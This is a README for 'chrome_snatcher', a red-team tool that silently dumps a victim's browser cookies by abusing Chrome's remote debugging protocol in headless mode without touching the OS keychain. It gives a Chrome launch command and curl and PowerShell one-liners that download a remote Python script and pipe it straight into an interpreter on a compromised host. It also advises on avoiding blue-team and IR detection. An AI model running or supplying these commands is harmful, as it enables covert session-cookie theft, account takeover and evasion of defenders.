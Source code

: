 # chrome_snatcher
Chrome (headless) cookie snatcher

For use in Red Team ops where you have a shell on a user's machine and want to (silently) dump their cookies, without needing to compromise their keychain on OSX (and risk alerting the user/setting off alarm bells).  (Ab)uses Chrome Debugger Protocol in headless mode to load up a site (and/or potentially their most recent browsing session so you can see what they were looking at, etc, although can be modified as needed), start crumb-snatchin', and obtain all of the l3wtz.  Also, additional caveat:  Chrome Debugger Protocol is verrry cantankerous, so it may not cooperate immediately, but luckily it's not noisy to start and stop it.

No additional privilege needed to run it beyond what the user has.

Usage:

`/path/to/user's/chrome --headless=new --remote-debugging-port=9222 --remote-allow-origins="*" --no-sandbox --disable-gpu --profile-directory="Profile <x>" (In my case it wasn't 0 or 1, so you might have to do some additional recon/trial/error here)`

MacOSx/Linux:
`curl -s https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py | python3`

Windows (potentially risky method for deployment as many if not most Blue/IR watches POSH like a hawk, probably better to use your agent/C2 infra):
`Invoke-WebRequest -Uri "https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py" -UseBasicParsing | Select-Object -ExpandProperty Content | python -`

Enjoy!

